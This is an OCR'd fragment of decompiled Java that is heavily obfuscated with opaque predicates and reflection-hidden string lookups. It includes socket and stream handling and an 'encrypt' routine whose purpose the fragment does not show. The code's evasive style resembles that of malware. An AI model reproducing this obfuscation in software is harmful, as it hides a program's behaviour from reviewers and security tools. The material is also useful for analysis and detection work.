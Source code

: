 ```
                                bufferedWriter.close();
                                "".length();
                                if ("  ".length() < 0) {
                                    return;
                                }
                            } catch (Throwable th2) {
                                th.addSuppressed(th2);
                            }
                            throw th;
                        }
                    } while ((107 ^ 111) >= "   ".length());
                } catch (Throwable th3) {
                    try {
                        bufferedReader.close();
                        "".length();
                        if ((((((4 + 93) - 74) + 114) ^ (((54 + 50) - (-65)) + 28)) & (((101 ^ 120) ^ (60 ^ 109)) ^ (-" ".length()))) < 0) {
                            return;
                        }
                    } catch (Throwable th4) {
                        th3.addSuppressed(th4);
                    }
                    throw th3;
                }
            } catch (Throwable th5) {
                try {
                    socket.close();
                    "".length();
                    if ("  ".length() != "  ".length()) {
                        return;
                    }
                } catch (Throwable th6) {
                    th5.addSuppressed(th6);
                }
                throw th5;
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static String encrypt(String str) throws Exception {
        Class<?> cls = Class.forName(I[l[0]]);
        Class<?>[] clsArr = new Class[l[1]];
        clsArr[l[0]] = byte[].class;
        clsArr[l[2]] = String.class;
        Constructor<?> constructor = cls.getConstructor(clsArr);
        Object[] objArr = new Object[l[1]];
        objArr[l[0]] = I[l[2]].getBytes();
        objArr[l[2]] = I[l[1]];
        Object newInstance = constructor.newInstance(objArr);
        Class<?> cls2 = Class.forName(I[l[3]]);
        String str2 = I[l[4]];
        Class<?>[] clsArr2 = new Class[l[2]];
        clsArr2[l[0]] = String.class;
        Method method = cls2.getMethod(str2, clsArr2);
        Object[] objArr2 = new Object[l[2]];
        objArr2[l[0]] = I[l[5]];
        Object invoke = method.invoke(null, objArr2);
        String str3 = I[l[6]];
        Class<?>[] clsArr3 = new Class[l[1]];
        clsArr3[l[0]] = Integer.TYPE;
        clsArr3[l[2]] = Class.forName(I[l[7]]);
```